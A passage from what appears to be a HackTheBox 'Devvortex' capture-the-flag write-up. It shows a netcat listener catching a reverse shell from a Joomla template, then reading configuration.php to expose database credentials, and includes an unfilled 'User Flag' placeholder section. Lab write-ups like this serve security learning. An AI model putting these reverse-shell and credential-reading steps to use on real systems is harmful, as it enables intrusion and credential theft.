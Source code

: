 ![Untitled](/assets/images/HTB/Untitled%204.png)

then just burn the listner 

```bash
┌──(root㉿kali)-[/home/kali]
└─# nc -nlvp 1122   
listening on [any] 1122 ...
connect to [10.10.14.137] from (UNKNOWN) [10.129.234.150] 55534
bash: cannot set terminal process group (847): Inappropriate ioctl for device
bash: no job control in this shell
www-data@devvortex:~/dev.devvortex.htb/templates/cassiopeia$
```

## **User Flag**

- **Location:** [Path to the user flag]
- **Method:** [Details on how you obtained user-level access]
- **Challenges Faced:** [Any difficulties or interesting findings]

lets go to the default config path for the joomla 

```bash
www-data@devvortex:~/dev.devvortex.htb$ cat configuration.php
cat configuration.php
<?php
class JConfig {
        public $offline = false;
        public $offline_message = 'This site is down for maintenance.<br>Please check back again soon.';
        public $display_offline_message = 1;
        public $offline_image = '';
        public $sitename = 'Development';
        public $editor = 'tinymce';
        public $captcha = '0';
        public $list_limit = 20;
        public $access = 1;
        public $debug = false;
        public $debug_lang = false;
        public $debug_lang_const = true;
        public $dbtype = 'mysqli';
        public $host = 'localhost';
        public $user = 'lewis';
        public $password = 'P4ntherg0t1n5r3c0n##';
        public $db = 'joomla';
        public $dbprefix = 'sd4fg_';
        public $dbencryption = 0;
        public $dbsslverifyservercert = false;
        public $dbsslkey = '';
```
